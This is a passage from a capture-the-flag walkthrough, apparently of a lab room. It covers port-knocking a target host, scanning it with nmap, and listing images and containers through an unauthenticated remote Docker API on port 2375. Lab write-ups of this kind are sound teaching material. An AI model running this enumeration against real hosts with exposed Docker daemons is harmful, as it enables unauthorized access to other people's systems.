 ```
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+REDACTED
\ No newline at end of file
```

we found the root flag and it looks like we need to do a port knock sequence to open the docker port, which upon lookup should default to 2375

knock 10.10.249.5 42 1337 10420 6969 63000
then a quick
nmap -p 2375 10.10.249.5
```
# nmap 10.10.249.5 -p 2375
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-21 13:12 PST
Nmap scan report for 10.10.249.5
Host is up (0.15s latency).

PORT     STATE SERVICE
2375/tcp open  docker

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
```

our docker port is now open!
```
docker -H 10.10.249.5:2375 images
REPOSITORY                                    TAG       IMAGE ID       CREATED         SIZE
exif-api-dev                                  latest    4084cb55e1c7   6 weeks ago     214MB
exif-api                                      latest    923c5821b907   6 weeks ago     163MB
frontend                                      latest    577f9da1362e   6 weeks ago     138MB
endlessh                                      latest    7bde5182dc5e   6 weeks ago     5.67MB
nginx                                         latest    ae2feff98a0c   2 months ago    133MB
debian                                        10-slim   4a9cd57610d6   2 months ago    69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   2 months ago    103MB
alpine                                        3.9       78a2ce922f86   10 months ago   5.55MB
```
```
docker -H 10.10.249.5:2375 ps
CONTAINER ID   IMAGE          COMMAND                  CREATED       STATUS          PORTS                  NAMES
49fe455a9681   frontend       "/docker-entrypoint.…"   6 weeks ago   Up 37 minutes   0.0.0.0:80->80/tcp     dockerescapecompose_frontend_1
4b51f5742aad   exif-api-dev   "./application -Dqua…"   6 weeks ago   Up 37 minutes                          dockerescapecompose_api-dev-backup_1
cb83912607b9   exif-api       "./application -Dqua…"   6 weeks ago   Up 37 minutes   8080/tcp               dockerescapecompose_api_1
548b701caa56   endlessh       "/endlessh -v"           6 weeks ago   Up 37 minutes   0.0.0.0:22->2222/tcp   dockerescapecompose_endlessh_1
```
